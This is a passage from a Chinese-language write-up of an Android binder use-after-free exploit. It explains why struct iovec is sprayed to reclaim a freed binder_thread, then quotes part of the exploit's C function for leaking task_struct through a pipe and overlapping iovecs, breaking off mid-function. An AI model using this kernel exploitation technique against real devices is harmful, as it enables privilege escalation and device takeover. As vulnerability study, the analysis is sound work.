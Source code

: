 如何泄露出task_struct？看了几个exp，都用的是`struct iovec`去占位覆盖前面释放的binder_thread。这也是Project Zero的做法。这个方法最初是由Keen实验室提出的，iovec具有一些小特性使得它很适合用来作为攻击的媒介：

1. 在64bit系统下只有0x10的大小

1. 容易控制它的成员iov_base和iov_len。

1. 可以控制写入的个数控制iovec最终进入哪个kmalloc缓存

1. 它有一个指向缓冲区的指针和一个长度，这是使用unlink进行破坏的理想字段

可通过readv、writev、recvmsg、sendmsg等系统调用和iovec是实现linux下的Vectored I/O。在漏洞利用中我们可以利用来绕过检查，对已释放的空间进行占位布局堆风水。

看看exp如何如来泄露信息，作者写了很详细的注释：

```c
void BinderUaF::leakTaskStruct() {
    int pipe_fd[2] = {0};
    ssize_t nBytesRead = 0;
    static char dataBuffer[PAGE_SIZE] = {0};
    struct iovec iovecStack[IOVEC_COUNT] = {nullptr};
    // Get binder fd
    setupBinder();
    // Create event poll
    setupEventPoll();
    // We are going to use iovec for scoped read/write,
    // we need to make sure that iovec stays in the kernel
    // before we trigger the unlink after binder_thread has
    // been freed.
    // One way to achieve this is by using the blocking APIs
    // in Linux kernel. Such APIs are read, write, etc on pipe.

    // Setup pipe for iovec
    INFO("[+] Setting up pipe\n");

    if (pipe(pipe_fd) == -1) {
        ERR("\t[-] Unable to create pipe\n");
        exit(EXIT_FAILURE);
    } else {
        INFO("\t[*] Pipe created successfully\n");
    }
    //
    // pipe_fd[0] = read fd
    // pipe_fd[1] = write fd
    //
    // Default size of pipe is 65536 = 0x10000 = 64KB
    // This is way much of data that we care about
    // Let's reduce the size of pipe to 0x1000
    //
    if (fcntl(pipe_fd[0], F_SETPIPE_SZ, PAGE_SIZE) == -1) {
        ERR("\t[-] Unable to change the pipe capacity\n");
        exit(EXIT_FAILURE);
    } else {
        INFO("\t[*] Changed the pipe capacity to: 0x%x\n", PAGE_SIZE);
    }
    INFO("[+] Setting up iovecs\n");
    //
    // As we are overlapping binder_thread with iovec,
    // binder_thread->wait.lock will align to iovecStack[10].io_base.
    //
    // If binder_thread->wait.lock is not 0 then the thread will get
    // stuck in trying to acquire the lock and the unlink operation
    // will not happen.
    //
    // To avoid this, we need to make sure that the overlapped data
    // should be set to 0.
```
